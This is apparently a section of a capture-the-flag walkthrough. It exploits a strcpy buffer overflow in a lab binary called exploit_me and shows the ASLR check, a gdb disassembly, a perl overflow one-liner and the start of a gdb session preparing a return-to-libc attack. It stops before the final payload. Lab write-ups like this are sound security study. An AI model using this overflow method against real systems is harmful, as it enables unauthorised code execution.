 

## VIII. Zaz

Check if ASLR protection (address space layout randomization, a protection that triggers use of random memory address for each binary execution) is deactivated :
````bash
cat /proc/sys/kernel/randomize_va_space
0
````

Also, there’s no checksec, but otherwise would be good to do a checksec --file=exploit_me 
````bash
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	    push   ebp
   0x080483f5 <+1>:	    mov    ebp,esp
   0x080483f7 <+3>:	    and    esp,0xfffffff0
   0x080483fa <+6>:	    sub    esp,0x90
   0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    eax,0x1
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>:	add    eax,0x4
   0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
   0x08048429 <+53>:	mov    DWORD PTR [esp],eax
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    eax,0x0
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
````

There’ s a strcpy. Maybe we can overflow and do a return-to-libc attack ?

````bash
./exploit_me $(perl -e 'print “DEVIL”x666')
````

Works, segfault. We can’t install peda and do a pattern search, so we find the 140 char limit through trial and error.
We find the address of system, exit, /bin/sh : 

````bash
zaz@BornToSecHackMe:~$ gdb exploit_me
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.

$(gdb) b *main
Breakpoint 1 at 0x80483f4

$(gdb) r WHATEVER

````
